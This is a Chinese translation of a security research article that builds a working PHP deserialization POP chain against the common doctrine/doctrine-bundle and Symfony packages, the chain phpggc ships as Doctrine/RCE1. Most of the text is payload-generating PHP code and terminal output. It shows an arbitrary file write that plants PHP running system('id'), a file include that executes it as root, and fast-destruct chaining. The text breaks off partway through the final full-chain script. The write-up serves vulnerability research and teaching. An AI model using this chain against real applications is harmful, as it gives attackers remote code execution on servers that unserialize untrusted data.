







【POP链PartⅡ】PHP应用程序Symfony的POP链攻击过程

- - -

# 【POP链PartⅡ】PHP应用程序Symfony的POP链攻击过程

> 本文介绍了如何在剖析完PHP应用程序的POP链之后的综合利用，涉及的主要技术有：
> 
> -   任意文件写入
> -   任意文件包含
> -   pop链子联合演示
> -   POP链反序列化漏洞
> 
> 翻译来源：
> 
> [https://www.synacktiv.com/en/publications/finding-a-pop-chain-on-a-common-symfony-bundle-part-2](https://www.synacktiv.com/en/publications/finding-a-pop-chain-on-a-common-symfony-bundle-part-2)

## 简要介绍

> Symfony依赖包 `doctrine/doctrine-bundle` 是Symfony应用程序中安装的最常见的包之一。在发布这篇文章的时候，它已经被下载了1.44亿次，这使得它成为反序列化利用的一个的目标。如果想提高对PHP反序列化利用的了解，并理解为什么弱类型语言被认为不安全，这篇文章不容错过。
> 
> 本文的第二部分将着重于基于第一部分中已经分析过的代码构建一个有效的POP链，尽管阅读第一部分并不是理解pop链构建的必要条件，但是为了深入理解代码的奥妙之处，建议阅读先阅读第一部分。

POP链使用的所有代码已经在这篇博文的第一部分详细介绍了，接下来看看如何制作的有效payload，此条POP链已在phpggc中作为 `Doctrine/RCE1` 提交，接下来将再次一步一步地来看看如何以及为什么这样设计的，使用的php版本为 `8.1.22` 。

[https://github.com/ambionics/phpggc/tree/master/gadgetchains/Doctrine/RCE/1](https://github.com/ambionics/phpggc/tree/master/gadgetchains/Doctrine/RCE/1)

`serialize.php` 文件用于生成有效payload，将在本节中逐渐更新，使用模板如下所示：

```plain
<?php

namespace <namespace_name_from_vendor>
{
    [...]
}
[...]

namespace PopChain
{
use <class_name_from_vendor>;

$obj =<class_name_from_vendor>();
[...]

$serialized = serialize($obj);
echo serialize($obj);
}
```

`unserialize.php` 文件用于测试反序列化，包括来自 `doctrine/doctrine-bundle` 的依赖包。

```plain
<?php

include "vendor/autoload.php";
unserialize('<serizalized_data_to_test>');
```

`doctrine-bundle` 软件包是通过composer安装的。

```plain
$ composer require doctrine/doctrine-bundle
./composer.json has been updated
Running composer update doctrine/doctrine-bundle
Loading composer repositories with package information
Updating dependencies
Nothing to modify in lock file
Installing dependencies from lock file (including require-dev)
Package operations: 35 installs, 0 updates, 0 removals
[...]
```

## 第一步,到达CacheAdapter

当反序列化 `CacheAdapter` 对象时会发生什么？

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
    }
}

namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;

$obj = new CacheAdapter();

$serialized = serialize($obj);
echo serialize($obj);
}
```

输出：

```plain
$ php unserialize.php
```

一开始什么都不会发生，因为 `commit` 函数中的所有逻辑都依赖于 `defferedItems` 属性。如果没有定义，代码将仅仅返回 `true` 。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6;

final class CacheAdapter implements CacheItemPoolInterface
{
    /** @var Cache */
    private $cache;

    /** @var array<CacheItem|TypedCacheItem> */
    private $deferredItems = [];
    [...]
    public function commit(): bool
    {
        if (! $this->deferredItems) {
            return true;
        }
        [...]
    }
}
```

通过将 `defferedItems` 设置为空数组，得到了下面的错误消息，这意味着真地到达了 `commit` 函数。

```plain
$ php unserialize.php 

Fatal error: Uncaught TypeError: Doctrine\Common\Cache\Psr6\CacheAdapter::commit(): Return value must be of type bool, null returned in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:235
Stack trace:
#0 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#1 /tmp/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#2 {main}
  thrown in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php on line 235
```

在commit函数中到达foreach循环。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231028001643-3812bd9a-74e4-1.png)

要继续执行代码，必须至少设置一个 `deferredItem` .如果认为代码中定义的 PHP 注解，它应该是 `TypedCacheItem` 、 `CacheItem` ，本文稍后将解释这种差异（参见 PHP 版本差异）。因此，已在 `deferredItems` 数组中添加了 `TypedCacheItem` 。

正如在 `foreach` 循环中看到的，对 `expiry` 的检查已经完成，所以 对`TypedCacheItem` 必须有一个 `expiry` 定义属性。在循环内部，检查`value`。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6;

[...]

final class TypedCacheItem implements CacheItemInterface
{
    private ?float $expiry = null;

    public function get(): mixed
    {
        return $this->value;
    }

    public function getExpiry(): ?float
    {
        return $this->expiry;
    }
}
```

`deferredItem` `expiry` 值导致两种不同的可能性。如果当前timestamp低于 `deferredItem` `expiry` 的值，则到达 `save` 方法。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;

$obj = new CacheAdapter();

$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

输出结果：

```plain
$ php unserialize.php 

Fatal error: Uncaught Error: Call to a member function save() on null in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:235
Stack trace:
#0 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#1 /tmp/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#2 {main}
  thrown in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php on line 235
```

相反的，如果当前timestamp大于 `deferredItem` `expiry` ，则到达 `delete` 方法。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 1;
        public $value = "test";
    }

}

namespace PopChain
{

use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;

$obj = new CacheAdapter();

$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

输出结果：

```plain
$ php unserialize.php 

Fatal error: Uncaught Error: Call to a member function delete() on null in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:227
Stack trace:
#0 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#1 /tmp/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#2 {main}
  thrown in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php on line 227
```

到达delete或save函数。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231028001704-447d3344-74e4-1.png)

## 第二步，写入文件

这个POP链的第一个目标是在文件系统上写入一个文件。为此，需要调用 `MockFileSessionStorage` 的 `save` 函数，然后在 `CacheAdapter` 对象的 `cache` 属性上调用 `save` 方法。在文件中定义之后，现在需要从 `MockFileSessionStorage` 中获取一个异常。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

namespace Symfony\Component\HttpFoundation\Session\Storage
{
    class MockFileSessionStorage
    {
    }
}

namespace PopChain
{

use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage;

$obj = new CacheAdapter();
$obj->cache = new MockFileSessionStorage();
$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

输出结果：

```plain
$ php unserialize.php 

Fatal error: Uncaught RuntimeException: Trying to save a session that was not started yet or was already closed. in /tmp/vendor/symfony/http-foundation/Session/Storage/MockFileSessionStorage.php:79
Stack trace:
#0 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(235): Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage->save(0, 'test', 99999998326133680)
#1 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#2 /tmp/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#3 {main}
  thrown in /tmp/vendor/symfony/http-foundation/Session/Storage/MockFileSessionStorage.php on line 79
```

触发MockFileSessionStorage的save函数异常。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231028001722-4f04c412-74e4-1.png)

下面快速分析一下 `save` 函数，如果没有定义 `started` 属性，那么会触发前面的异常，所以需要设置为 `true` ，`MetadataBag` 对象也必须用 `storageKey` 属性定义。

```plain
$ find . -name '*MetadataBag*'
./vendor/symfony/http-foundation/Session/Storage/MetadataBag.php

$ cat ./vendor/symfony/http-foundation/Session/Storage/MetadataBag.php | grep getStorageKey -A 3
    public function getStorageKey(): string
    {
        return $this->storageKey;
    }
```

最后，需要将以下属性添加到 `MockFileSessionStorage` 对象：

-   `savePath` ：创建文件的路径
-   `id` ：将文件附加 `.mocksess` 扩展名
-   `data` ：生成的文件内容，这里将包含在服务器上执行的PHP代码

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

namespace Symfony\Component\HttpFoundation\Session\Storage
{
    class MockFileSessionStorage
    {
        public $started = true;
        public $savePath = "/tmp"; // Produces /tmp/aaa.mocksess
        public $id = "aaa";
        public $data = ['<?php system("id"); phpinfo(); ?>'];
    }

    class MetadataBag
    {
       public $storageKey = "a";
    }
}

namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage;
use Symfony\Component\HttpFoundation\Session\Storage\MetadataBag;

$obj = new CacheAdapter();
$obj->deferredItems = [new TypedCacheItem()];
$mockSessionStorage = new MockFileSessionStorage();
$mockSessionStorage->metadataBag = new MetadataBag();
$obj->cache =$mockSessionStorage;

echo serialize($obj);
}
```

如下面的bash代码片段所示，在反序列化payload之后，在服务器上生成 `aaa.mocksess` 文件，已经成功地在受控路径上创建了一个文件，因此将其作为PHP代码执行，成功地触发了注入的代码。

```plain
$ php unserialize.php 

Fatal error: Uncaught TypeError: Doctrine\Common\Cache\Psr6\CacheAdapter::commit(): Return value must be of type bool, null returned in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:235
Stack trace:
#0 /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#1 /tmp/poc/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#2 {main}
  thrown in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php on line 235
$ ls -l /tmp/aaa.mocksess 
-rw-r--r-- 1 root root 51 Feb 13 15:05 /tmp/aaa.mocksess
$ php /tmp/aaa.mocksess 
a:1:{i:0;s:33:"uid=0(root) gid=0(root) groups=0(root)
phpinfo()
PHP Version => 8.1.15
```

## 第三步，执行文件

现在演示包含payload，下面的代码将允许我们达到之前详细介绍的 `PhpArrayAdapter` `initialize` 函数。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 1;
        public $value = "test";
    }

}

namespace Symfony\Component\Cache\Adapter
{
    class PhpArrayAdapter
    {
    }
}

namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\Cache\Adapter\PhpArrayAdapter;

$obj = new CacheAdapter();
$obj->cache = new PhpArrayAdapter();

$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

在没有任何对象被定义的情况下，成功到达函数，输出如下所示。

```plain
$ php unserialize.php 

Deprecated: is_file(): Passing null to parameter #1 ($filename) of type string is deprecated in /tmp/poc/vendor/symfony/cache/Adapter/PhpArrayAdapter.php on line 391

Fatal error: Uncaught Error: Call to a member function deleteItem() on null in /tmp/poc/vendor/symfony/cache/Adapter/PhpArrayAdapter.php:196
Stack trace:
#0 /tmp/poc/vendor/symfony/cache-contracts/CacheTrait.php(43): Symfony\Component\Cache\Adapter\PhpArrayAdapter->deleteItem('0')
#1 /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(227): Symfony\Component\Cache\Adapter\PhpArrayAdapter->delete('0')
#2 /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#3 /tmp/poc/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#4 {main}
  thrown in /tmp/poc/vendor/symfony/cache/Adapter/PhpArrayAdapter.php on line 196
```

从PhpArrayAdapter定义到达代码，如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231028001744-5c8e1e62-74e4-1.png)

实现文件包含的最后一步是为 `file` 属性定义一个值，下面的POP链旨在执行之前生成的 `/tmp/aaa.mocksess` 文件中自定义的代码。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 1;
        public $value = "test";
    }

}

namespace Symfony\Component\Cache\Adapter
{
    class PhpArrayAdapter
    {
        public $file = "/tmp/aaa.mocksess"; // fixed at the time
    }
}

namespace PopChain
{

use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\Cache\Adapter\PhpArrayAdapter;

$obj = new CacheAdapter();
$obj->cache = new PhpArrayAdapter();

$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

当反序列化时，POP链成功地到达了 `require` 代码，所以之前写在 `/tmp/aaa.mocksess` 中的PHP代码成功执行了了，触发了系统上的代码执行。

```plain
$ php unserialize.php 
a:1:{i:0;s:33:"uid=0(root) gid=0(root) groups=0(root)
phpinfo()
PHP Version => 8.1.15

System => Linux 184f5674e38c 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64
Build Date => Feb  9 2023 08:04:45
```

## 第四步，联合两条链

现在已经看到了如何生成两个链，仍然需要讨论一些细节来使它们一起协同完成攻击。事实上，这些pop链可以很好地协同工作，第一次触发文件写入，第二次触发文件包含。但是，下面也可以在一次反序列化中同时触发它们。

由于POP链由两条链组成，因此必须使用快速析构（Fast destruct）来强制执行这两条链。

快速析构是一种用于在反序列化后立即强制调用 `__destruct()` 函数的方法。由于已经完全控制了在反序列化的字符串中定义的对象，因此有可能创建异常状态，例如在数组中定义两次相同的索引。这将立即触发对象上的 `__destruct()` 调用。在下面的示例中，快速析构将在 `\Namespace\Object1` 和 `\Namespace\Object2` 上被调用，而不是在 `\Namespace\Object3` 上被调用。

快速析构定义的方案。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231028001830-77ada276-74e4-1.png)

在本文的POP链中，因为我们使用了两个基于 `__destruct()` 定义的不同链，所以快速析构是强制性的，

剩下还包括PHP的版本差异问题，PHP版本对构造POP链很重要，由于所有的演示都是从PHP 8中进行的，它与 `TypedCacheItem` 兼容。然而， `TypedCacheItem` 与PHP 7应用程序不兼容，以下错误是从任何以前的POP链上的 `CacheAdapter` 引发的。

```plain
$ php unserialize.php 
Parse error: syntax error, unexpected 'private' (T_PRIVATE), expecting variable (T_VARIABLE) in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/TypedCacheItem.php on line 24
```

类型定义在这里再次成为一个问题。正如本文前面所讨论的， `defferedItems` 有两个可能的值： `TypedCacheItem` 或 `CacheItem` ，`CacheItem` 应该在PHP 7之前或之前的版本上使用，如果 `doctrine/doctrine-bundle` 项目是从PHP 8安装的，当使用 `CacheItem` 而不是 `TypedCacheItem` 时，将触发下面的兼容性问题。

```plain
$ php unserialize.php 
Fatal error: Declaration of Doctrine\Common\Cache\Psr6\CacheItem::get() must be compatible with Psr\Cache\CacheItemInterface::get(): mixed in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheItem.php on line 51
```

因此，出于此原因，POP链必须根据目标的PHP版本进行调整。

## 第五步，全POP链

在考虑了最后的每一步完成之后，实现的 `serialize.php` 文件的最终版本如下所示：

```plain
<?php

/* Entrypoint of the POPchain POP链的入口*/ 
namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class CacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

/* File write objects 文件写入对象*/
namespace Symfony\Component\HttpFoundation\Session\Storage
{
    class MockFileSessionStorage
    {
        public $started = true;
        public $savePath = "/tmp"; // Produces /tmp/aaa.mocksess
        public $id = "aaa"; // File name
        public $data = ['<?php echo "I was TRIGGERED"; system("id"); ?>']; // PHP code executed
    }

    class MetadataBag
    {
        public $storageKey = "a";
    }
}

/* File inclusion objects 文件包含对象*/
namespace Symfony\Component\Cache\Adapter
{
    class PhpArrayAdapter
    {
        public $file = "/tmp/aaa.mocksess"; // fixed at the time
    }
}


namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage;
